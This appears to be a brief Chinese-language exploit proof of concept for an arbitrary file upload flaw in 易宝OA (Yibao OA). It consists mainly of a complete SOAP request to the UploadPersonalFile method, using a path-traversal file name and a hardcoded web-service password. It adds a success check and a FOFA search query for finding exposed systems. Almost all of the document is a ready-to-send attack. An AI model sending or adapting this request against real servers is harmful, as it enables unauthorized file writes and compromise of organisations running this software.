

```
POST /WebService/BasicService.asmx  HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: text/xml; charset=utf-8
Content-Length: 501

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadPersonalFile xmlns="http://tempuri.org/">
      <fs>MTIzNA==</fs>
      <FileName>../../manager/2.txt</FileName>
      <webservicePassword>{ac80457b-368d-4062-b2dd-ae4d490e1c4b}</webservicePassword>
    </UploadPersonalFile>
  </soap:Body>
</soap:Envelope>
```

出现如下数据代表漏洞存在：url+2.txt



***\*fofa:\****title="欢迎登录易宝OA系统" || banner="易宝OA"